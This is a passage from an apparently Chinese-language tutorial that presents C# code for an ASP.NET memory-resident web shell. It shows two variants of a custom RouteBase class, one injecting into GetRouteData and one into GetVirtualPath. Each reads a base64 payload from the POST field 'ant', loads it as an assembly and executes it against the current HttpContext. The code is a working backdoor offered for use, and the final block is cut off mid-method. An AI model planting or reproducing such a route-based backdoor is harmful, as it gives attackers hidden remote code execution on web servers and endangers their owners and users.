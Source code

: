 ```cpp
                httpResponse.End();
            }
            return null;
        }

        public override VirtualPathData GetVirtualPath(RequestContext requestContext, RouteValueDictionary values)
        {
            return null;
        }
    }
```

更简单的一种做法是直接用HttpContext.Current就获取当前的Context对象，传入Equals里即可。

```cpp
 public class MyRoute : RouteBase
    {
        public override RouteData GetRouteData(HttpContextBase httpContext)
        {
        	HttpContext context = HttpContext.Current;
            String Payload = httpContext.Request.Form["ant"];
            if (Payload != null)
            {
                System.Reflection.Assembly assembly = System.Reflection.Assembly.Load(Convert.FromBase64String(Payload));
                assembly.CreateInstance(assembly.GetName().Name + ".Run").Equals(context);
                context.Response.End();
            }
            return null;
        }

        public override VirtualPathData GetVirtualPath(RequestContext requestContext, RouteValueDictionary values)
        {
            return null;
        }
    }
```

将我们的逻辑注入到GetRouteData函数中，这是第一种写法。

#### GetVirtualPath

其实用GetVirtualPath也是可以注入我们的逻辑的，这是第二种写法。

```cpp
public class MyRoute : RouteBase
    {
        public override RouteData GetRouteData(HttpContextBase httpContext)
        {
            return null;
        }

        public override VirtualPathData GetVirtualPath(RequestContext requestContext, RouteValueDictionary values)
        {
            HttpContext context = HttpContext.Current;
            String Payload = context.Request.Form["ant"];
            if (Payload != null)
            {
                System.Reflection.Assembly assembly = System.Reflection.Assembly.Load(Convert.FromBase64String(Payload));
                assembly.CreateInstance(assembly.GetName().Name + ".Run").Equals(context);
                context.Response.End();
            }
```